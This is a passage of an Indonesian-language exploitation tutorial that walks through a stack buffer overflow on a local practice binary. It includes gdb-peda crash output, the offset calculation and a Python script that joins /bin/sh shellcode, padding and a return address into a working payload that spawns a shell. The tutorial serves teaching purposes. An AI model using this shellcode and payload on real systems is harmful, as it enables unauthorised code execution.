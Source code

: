 ```
0004| 0xffffd444 --> 0xffffd4d4 --> 0xffffd639 ("/home/me/Documents/buffer/simplebuff")
0008| 0xffffd448 --> 0xffffd4dc --> 0xffffd65b ("LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc"...)
0012| 0xffffd44c --> 0xffffd464 --> 0x0 
0016| 0xffffd450 --> 0x1 
0020| 0xffffd454 --> 0x0 
0024| 0xffffd458 --> 0xf7fa0000 --> 0x1d7d6c 
0028| 0xffffd45c --> 0xf7fe575a (add    edi,0x178a6)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x61414145 in ?? ()
```
- Nah program mengalami memory corruption, sekarang kita akan mengecek offset dari 0x61414145
```
gdb-peda$ pattern offset 0x61414145
1631666501 found at offset: 36
```
- Jadi hitungan kita diawal tadi sudah benar jika, padding yang dibutuhkan untuk sampai return address adalah 36byte

Sekarang kita akan membuat payload dari shellcode yang udah ada http://shell-storm.org/shellcode/files/shellcode-517.php dengan target "/bin/sh"

```python
import struct

'''
char shellcode[] =
                                // <_start>
    "\x31\xc9"                  // xor    %ecx,%ecx
    "\xf7\xe1"                  // mul    %ecx
    "\x51"                      // push   %ecx
    "\x68\x2f\x2f\x73\x68"      // push   $0x68732f2f
    "\x68\x2f\x62\x69\x6e"      // push   $0x6e69622f
    "\x89\xe3"                  // mov    %esp,%ebx
    "\xb0\x0b"                  // mov    $0xb,%al
    "\xcd\x80"                  // int    $0x80
;
'''

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"
print shellcode + "A"*(36 - len(shellcode)) + struct.pack("<I", 0xffffd468)
```
- Dari payload diatas sudah sesuai dengan konsep layout memory stack yang ada diatas yaitu shellcode + (padding - len(shellcode)) + return address.

<img src="https://user-images.githubusercontent.com/13828056/41151030-bea95b08-6b39-11e8-9ff4-2e69b7d051df.png" width="60%"></img>

- Berhasil mendapatkan akses shell :tada: sekarang attacker mau persiapan buka puasa dahulu :laughing:

